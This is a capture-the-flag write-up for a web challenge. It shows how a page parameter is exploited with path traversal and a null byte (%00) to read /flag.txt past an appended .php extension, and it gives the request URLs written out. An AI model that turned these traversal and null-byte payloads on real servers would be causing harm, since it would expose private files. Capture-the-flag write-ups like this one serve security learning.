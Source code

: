 # Bits | Web

*Want to learn about binary units of information? Check out the "Bite of Knowledge" website!*

Not much information on the home page.  Manually crawling through the links reveals that all links are tied to `http://j2hi.com:50010/?page={page}`

The most logical guess is `http://j2hi.com:50010/?page=flag`.  This contains the text:

```
The flag is at /flag.txt
```

This could be Local File Inclusion (LFI).  Going to `http://j2hi.com:50010/?page=/../../../../../flag.txt` gave the text:

```
Sorry, /../../../../../flag.txt does not exist.
```

This means that the server is reading the page as `/../../../../../flag.txt.php` instead of just `/../../../../../flag.txt`.

However, if we include a null byte (`%00`), we can confuse the server to execute the code (`http://j2hi.com:50010/?page=/../../../../../flag.txt%00`).  This causes a break in the `.php` so the extension isn't included at the end fo the file.  The flag is:

```
flag{life_just_needed_a_null_byte}
```